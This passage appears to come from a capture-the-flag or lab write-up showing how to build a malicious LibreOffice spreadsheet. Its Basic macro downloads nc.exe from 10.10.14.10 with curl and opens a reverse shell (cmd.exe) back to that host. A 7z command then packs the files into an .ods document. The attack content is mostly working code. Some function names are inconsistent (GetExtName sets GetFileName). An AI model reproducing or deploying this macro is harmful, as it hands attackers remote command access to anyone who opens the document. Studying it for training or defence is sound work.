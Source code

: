 ```
    Sub YesLOad
      Dim ooos as string
      ooos = GeetTheOOS
      If ooos = &quot;windows&quot; OR ooos = &quot;osx&quot; OR ooos = &quot;linux&quot; Then
        MyExploit
      end If
    End Sub

    Sub MyExploit
      Shell(&quot;cmd.exe /C &quot;&quot;curl -o C:\Users\Public\Music\ncc.exe http://10.10.14.10/nc.exe &amp;&amp; C:\Users\Public\Music\ncc.exe 10.10.14.10 443 -e cmd.exe&quot;&quot;&quot;)
    End Sub

    Function GeetTheOOS() as string
      select case   getGUIType
        case 1:
          GeetTheOOS = &quot;windows&quot;
        case 3:
          GeetTheOOS = &quot;osx&quot;
        case 4:
          GeetTheOOS = &quot;linux&quot;
      end select
    End Function

    Function GetExtName() as string
      select case GeetTheOOS
        case &quot;windows&quot;
          GetFileName = &quot;exe&quot;
        case else
          GetFileName = &quot;bin&quot;
      end select
    End Function
    
</script:module>
```
At the end we zip the content of the directory like :
```
$ 7z a msf.ods *
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=C.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-6500U CPU @ 2.50GHz (406E3),ASM,AES-NI)

Open archive: ../msf.ods
--
Path = msf.ods
Type = zip
Physical Size = 8880

Scanning the drive:
6 folders, 12 files, 28703 bytes (29 KiB)

Updating archive: ../msf.ods

Items to compress: 18

    
Files read from disk: 12
Archive size: 8881 bytes (9 KiB)
Everything is Ok

```
